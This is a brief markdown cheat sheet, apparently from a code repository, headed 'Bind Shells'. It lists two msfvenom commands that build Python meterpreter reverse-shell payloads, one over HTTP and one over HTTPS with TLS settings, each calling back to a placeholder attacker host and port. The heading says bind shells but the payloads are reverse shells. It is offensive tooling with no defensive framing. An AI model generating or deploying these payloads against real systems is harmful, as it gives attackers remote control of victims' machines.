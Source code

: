 # Bind Shells

## HTTP

```
$ msfvenom -p python/meterpreter_reverse_http lhost=<IP> lport=<PORT> -o met.py
```

## HTTP via TLS

```
$ msfvenom -p python/meterpreter_reverse_https handlersslcert=<file.pem> sslversion=[Auto | TLS | SSL23 | SSL3 | TLS1 | TLS1.1 | TLS1.2] lhost=<IP> lport=<PORT> -o met.py
```